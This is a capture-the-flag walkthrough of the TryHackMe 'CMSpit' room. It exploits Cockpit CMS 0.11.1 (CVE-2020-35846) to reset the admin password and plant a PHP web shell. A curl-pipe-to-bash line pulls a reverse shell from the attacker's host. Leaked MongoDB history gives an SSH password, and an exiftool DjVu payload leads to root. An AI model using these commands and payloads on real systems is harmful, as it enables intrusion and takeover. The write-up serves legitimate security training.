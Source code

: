 # 79 - CMSpit (CockPit CMS exploitation, MongoDB exploitation)

Room Link --> [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```
nmap -Pn -n -vvv -T4 10.10.152.31 -p-


```
{% endcode %}

The webserver is running `CockPit CMS version 0.11.1` .

Default credentials didn't work.&#x20;

Some Resources used to answer the Questions:

* [https://exploit-notes.hdks.org/exploit/web/cms/cockpit-cms-pentesting/](https://exploit-notes.hdks.org/exploit/web/cms/cockpit-cms-pentesting/)
*

### Users Enumeration

Tool link --> [https://github.com/0z09e/CVE-2020-35846](https://github.com/0z09e/CVE-2020-35846)

```bash
dking@dking ~/Downloads$ python3 exploit.py http://10.10.152.31/                                            2 ↵  
[*] Target : http://10.10.152.31
[*] Sending request to dump users.
[+] Found Users : ['admin', 'darkStar7471', 'skidy', 'ekoparty']
[+] Changing password of admin
[*] Requesting for password reset token
[+] Found token for user admin : rp-247cb14d16593ad15dcaf8483dccc6906557d48fa0ce0
[+] Dumping admin's data
[+] Username : admin
[+] Email : admin@yourdomain.de
[+] Group : admin
[+] Hash : $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
[*] Resetting admin's password.
[+] Password reset succcessful
[+] New password of admin : P@ssw0rd
[*] Logging in as admin
[+] Successfully logged in as admin
[+] Bingoo, File has been deployed successfully : 1HpuLW.php
[+] File's location : http://10.10.152.31/1HpuLW.php
[*] Execution example : http://10.10.152.31/1HpuLW.php?cmd=id
[+] Output : uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Good luck for Privilege Escalation :)

```

```
[+] Found Users : ['admin', 'darkStar7471', 'skidy', 'ekoparty']
```

Password for `admin` has been reset to `P@ssw0rd`&#x20;

We have RCE on this link --> [http://10.10.152.31/1HpuLW.php?cmd=id](http://10.10.152.31/1HpuLW.php?cmd=id)

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Copied bash rev shell into a `shell.sh` in my kali, then host it with python3 web server, setup NC listener then execute:&#x20;

[http://10.10.152.31/1HpuLW.php?cmd=curl%20http://10.18.88.214/shell.sh|bash](http://10.10.152.31/1HpuLW.php?cmd=curl%20http://10.18.88.214/shell.sh|bash)

And got shell.

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to stux

Goto `/home/stux` dir, there is a `.dbshell` file there it contains history of MongoDB cmds.

```bash
www-data@ubuntu:/home/stux$ cat .dbshell
cat .dbshell
show
show dbs
use admin
use sudousersbak
show dbs
db.user.insert({name: "stux", name: "p4ssw0rdhack3d!123"})
show dbs
use sudousersbak
show collections
db
show
db.collectionName.find()
show collections
db.collection_name.find().pretty()
db.user.find().pretty()
db.user.insert({name: "stux"})
db.user.find().pretty()
db.flag.insert({name: "thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}"})
show collections
db.flag.find().pretty()
www-data@ubuntu:/home/stux$ 
```

`stux : p4ssw0rdhack3d!123` .

And we ssh into stux acct.

### Priv Esc to root

`sudo -l` .

```bash
stux@ubuntu:~$ sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool

```

Check exiftool version: `exiftool -ver` --> 12.05

Search for the exploit in google.

[https://gist.github.com/ihebski/cfbec41067f259efdc07f1587b268ab2](https://gist.github.com/ihebski/cfbec41067f259efdc07f1587b268ab2)

```
1. Convert any PDF file to .djvu;
pdf2djvu document.pdf -o fuzz.djvu 

2. create file.dsed
(metadata
        ("\c${system '/bin/bash'}")
.

3. Generate the exploit file
djvumake fuzz.djvu INFO=0,0 BGjp=/dev/null ANTa=file.dsed

4. launch it.
sudo /usr/local/bin/exiftool fuzz.djvu
```

Got root.

